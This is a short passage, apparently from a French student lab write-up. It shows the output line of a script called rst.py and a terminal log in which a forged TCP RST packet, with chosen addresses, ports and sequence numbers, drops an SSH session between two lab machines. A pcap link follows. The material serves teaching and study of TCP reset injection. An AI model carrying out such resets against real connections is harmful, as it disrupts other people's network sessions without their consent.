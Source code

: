~~~
print(f"Paquet RST envoyé de {ip_src}:{port_src} vers {ip_dst}:{port_dst} avec Seq={seq_num} et Ack={ack_num}")

~~~
~~~
root@sacha:~# python3 rst.py
ip src >> 10.3.3.1
ip dst >> 10.3.3.2
port src >> 56100
port dst >> 22
Seq nb >> 2819881537
Ack nb >> 3424035478
[ 3029.781295 ] device enp0s3 entered promiscuous mode
[ 3029.781295 ] device enp0s3 left promiscuous mode
attaquant@localhost:~$ aclient_loop: send disconnect: Broken pipe
~~~
[rst.pcapng](https://github.com/Ashiibi/Virtualisation/blob/main/tp3/tcp_rst.pcapng)
